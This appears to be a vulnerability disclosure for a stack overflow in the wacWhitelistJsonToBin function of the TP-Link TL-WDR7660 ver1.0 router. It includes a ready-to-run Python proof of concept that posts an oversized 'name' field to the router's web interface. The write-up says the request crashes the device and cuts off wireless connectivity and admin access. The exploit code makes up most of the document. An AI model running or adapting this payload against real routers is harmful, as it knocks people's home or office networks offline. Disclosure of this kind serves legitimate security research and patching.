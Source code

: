 **A stack overflow vulnerability exists in TL-WDR7660**

**version:  TL-WDR7660 ver1.0**

The wacWhitelistJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](image/1.png)

**Exploit a vulnerability in the wacWhitelistJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"wlan_access":{"table":"white_list","name":"a"*0x100000,"para":{"name":"test","mac":"00-00-00-00-00-01"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

***(1)Before the above code is executed, the wireless device access control works normally, as shown in the figure below***

![image](image/2.png)

***（2）After running the above code, the server crashes directly, unable to connect wirelessly to the router, and unable to log in to the router's administrative page***

![image](image/3.png)
